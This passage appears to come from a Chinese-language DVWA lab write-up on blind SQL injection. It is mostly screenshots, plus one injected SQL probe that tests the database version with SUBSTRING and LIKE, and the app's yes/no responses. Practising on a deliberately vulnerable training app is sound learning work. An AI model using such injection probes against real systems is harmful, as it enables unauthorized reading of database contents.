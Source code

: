 ![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2080.png)

加上 `1,IF...`

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2081.png)

用 like % 來測試看看

```sql
SELECT IF (SUBSTRING((SELECT @@version),1,7) like '10.%', 'pass', 'failed');
```

```bash
# response code is 404
0
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2082.png)

```bash
1
```
